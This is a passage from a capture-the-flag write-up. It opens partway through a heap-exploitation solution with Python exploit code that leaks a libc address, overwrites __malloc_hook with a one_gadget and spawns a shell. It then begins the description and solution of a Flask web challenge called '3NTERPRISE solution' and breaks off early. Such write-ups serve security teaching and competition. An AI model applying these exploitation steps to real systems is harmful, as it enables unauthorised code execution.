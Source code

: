 ```python
leak = printe("leaklibc\x00")
libc_addr = u64(leak[8:0x10]) - UNSORTED_OFF
print hex(libc_addr)
```

finally, rewrite malloc hook to `one_gadget` to get the shell.

```python
add("consume", 0x80, "whole unsorted bin")
add(int_min_hash, 0x10, "-2 idx access")

fakeent = p64(0)
fakeent += p64(heap_addr + neg2_name_off)
fakeent += p64((libc_addr + e.symbols["__malloc_hook"]) | (8 << 0x30))
#0x21460 off for this
add(p64(xor_add_60[7]), 0x100, cyclic(96) + fakeent)
#460->4e0

edit(int_min_hash, p64(libc_addr + ONE_GADGET_OFF))
#__malloc_hook = one_gadget

sh.interactive()
```

## 278 Web / 3NTERPRISE solution ##

**Description**

> Dear all
> 
> Welcome to our new enterprise solution.
> You can leave your business notes here.
> Data is safe - cause we use strong encryption !
> It is soooo safe, that even I am using this system.
> You even can audit the code [here](files/webapp.py)
> Plz DO NOT hax this - cause it is impossible !1111
> 
> Regards
> 
> Martin, the Webmaster 
> 
> URL: http://solution.hackable.software:8080

**Files provided**

 - [`webapp.py`](files/webapp.py)

**Solution** (by [Aurel300](https://github.com/Aurel300))

On our first visit to the webpage, we can only login or register. We can find out that the server is running Flask, although this is immediately obvious from the source code given.

The registration is normal enough:
